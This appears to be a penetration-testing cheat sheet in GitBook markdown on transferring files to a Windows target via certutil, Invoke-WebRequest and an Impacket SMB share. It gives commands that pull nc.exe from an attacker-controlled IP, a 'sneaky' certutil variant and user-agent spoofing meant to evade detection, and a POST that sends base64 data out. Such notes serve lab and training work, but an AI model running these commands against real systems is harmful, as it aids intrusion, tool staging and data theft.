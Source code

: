 {% tabs %}
{% tab title="certutil" %}
{% code title="First, start a python web server" %}
```sh
python3 -m http.server 443
```
{% endcode %}

{% code title="Then" %}
```powershell
certutil.exe -f -urlcache -split http://<IP>/<file>
```
{% endcode %}

{% code title="Sneaky Version" %}
```powershell
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
{% endcode %}
{% endtab %}

{% tab title="Invoke-WebRequest" %}
{% code title="First, start a python web-server" %}
```bash
python3 -m http.server 443
```
{% endcode %}

{% code title="Then" %}
```powershell
IWR -uri http://<ip>/<file> -OutFile <file_name>
```
{% endcode %}

{% code title="Uses Chrome User Agent" overflow="wrap" %}
```powershell
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
```
{% endcode %}

{% code title="Upload a file" overflow="wrap" %}
```powershell
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```
{% endcode %}
{% endtab %}

{% tab title="Impacket" %}
{% code title="First, create a SMB share folder" %}
```bash
impacket-smbserver <share_name> <file_path> -smb2support
```
{% endcode %}

{% code title="Then, copy the files" %}
```powershell
copy \\<ip>\share\<file> <destination_path>
```
{% endcode %}
{% endtab %}
